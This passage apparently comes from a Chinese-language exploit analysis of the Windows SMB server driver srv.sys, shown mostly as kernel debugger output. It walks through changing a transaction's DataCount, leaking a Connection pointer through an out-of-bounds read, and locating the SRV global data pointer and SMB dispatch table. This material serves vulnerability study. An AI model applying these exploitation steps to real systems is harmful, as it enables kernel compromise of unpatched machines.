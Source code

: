 ```c
kd> r eax
eax=0000023c
kd> dd 00059c38
00059c38  109c020c 00000000 ffdff500 89a29c18
00059c48  e1ed9900 e15e2960 0005acf8 00058ba8
00059c58  00020000 00059cd0 00002307 00000001
00059c68  00000000 00059cd4 8993b3e5 00059cd4
00059c78  00059d14 ffdff500 0005acd4 00000000
00059c88  00000000 00000006 00000000 00000ff0
00059c98  0000023c 00000000 00000001 00000000
00059ca8  00000101 08000000 0800cee6 00000000

kd> k
 # ChildEBP RetAddr  
00 b7c0ed88 b76dad98 srv!RestartPeekNamedPipe+0x5f
01 b7c0edac 805c6160 srv!WorkerThread+0x11e
02 b7c0eddc 80541dd2 nt!PspSystemThreadStartup+0x34
03 00000000 00000000 nt!KiThreadStartup+0x16
```
至此，已经成功修改了`write_transaction`的`DataCount`值，之后便可以越界读出 `leak_transacion->Connection`值: 89a29c18。
##### 5.1.1.3 SRV global data pointer
```c
kd> dds 89a29c18
89a29c18  02580202
89a29c1c  0000001d
89a29c20  00000000
89a29c24  00000000
89a29c28  00000000
89a29c2c  00000000
89a29c30  00000000
89a29c34  00000000
89a29c38  00000000
89a29c3c  b76d8bec srv!SrvGlobalSpinLocks+0x3c
89a29c40  899d0020
89a29c44  000005b3
89a29c48  8976c200
89a29c4c  00004000
89a29c50  10000100
89a29c54  00000000
89a29c58  8988e010
89a29c5c  89aedc30
89a29c60  89a7d898
89a29c64  0001ffff
```
其中`srv!SrvGlobalSpinLocks+0x3c` 就是所谓的 SRV global data pointer ：b76d8bec
##### 5.1.1.4 Locating function tables
```c
kd> dds b76d8bec-0x654
b76d8598  b7709683 srv!SrvSmbOpen2
b76d859c  b76f62a8 srv!SrvSmbFindFirst2
b76d85a0  b76f74e5 srv!SrvSmbFindNext2
b76d85a4  b76f6309 srv!SrvSmbQueryFsInformation
b76d85a8  b7707293 srv!SrvSmbSetFsInformation
b76d85ac  b77041ad srv!SrvSmbQueryPathInformation
b76d85b0  b7703ce7 srv!SrvSmbSetPathInformation
b76d85b4  b77025ad srv!SrvSmbQueryFileInformation
b76d85b8  b770367f srv!SrvSmbSetFileInformation
b76d85bc  b7705c85 srv!SrvSmbFsctl
b76d85c0  b7706419 srv!SrvSmbIoctl2
b76d85c4  b7705c85 srv!SrvSmbFsctl
b76d85c8  b7705c85 srv!SrvSmbFsctl
b76d85cc  b77047bb srv!SrvSmbCreateDirectory2
b76d85d0  b7709a51 srv!SrvTransactionNotImplemented
```